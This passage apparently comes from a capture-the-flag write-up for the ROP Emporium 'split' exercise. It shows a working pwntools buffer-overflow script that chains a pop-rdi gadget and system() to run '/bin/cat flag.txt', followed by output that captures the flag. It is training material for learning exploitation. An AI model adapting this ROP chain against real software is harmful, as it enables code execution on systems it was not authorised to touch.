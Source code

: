 Using python’s pwntools, we can make a basic script to accomplish all of this.

```python
from pwn import *

p = process("./split", stdout=PIPE, stderr=PIPE)
 
## RELEVANT ADDRESSES

gadget_address = 0x4007c3   # Address of pop rdi; ret
string_address = 0x601060   # Address of "/bin/cat flag.txt"
system_address = 0x400560   # Address of system syscall

## PAYLOAD

payload = b"A" * 40
payload += p64(gadget_address)
payload += p64(string_address)
payload += p64(system_address)

# Send the payloads
p.sendline(payload)

# Get the result
p.interactive()
```

And we get the flag!

```
(myenv) root@ubuntu:/home/c-bass/pwn/ropemporium/split# python3 solve.py
[+] Starting local process './split': pid 152871
[*] Switching to interactive mode
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
